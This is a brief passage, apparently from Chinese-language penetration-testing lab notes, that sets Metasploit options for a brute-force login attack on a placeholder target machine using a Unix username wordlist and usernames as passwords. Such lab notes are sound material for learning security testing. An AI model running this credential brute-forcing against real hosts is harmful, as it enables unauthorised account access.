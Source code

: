 # 設定參數
```bash=
set THREADS 3
set RHOSTS <靶機 IP>
set STOP_ON_SUCCESS true
set VERBOSE true
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
set USER_AS_PASS true
run
```
# Output 如圖
